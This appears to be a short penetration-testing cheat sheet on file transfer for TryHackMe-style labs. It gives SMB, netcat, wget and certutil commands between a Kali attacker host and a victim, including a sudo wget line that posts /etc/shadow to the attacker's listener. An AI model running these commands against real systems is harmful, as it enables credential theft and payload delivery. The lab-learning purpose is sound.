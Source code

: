 # Transferring Files

## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:81/$FILE $FILE
```




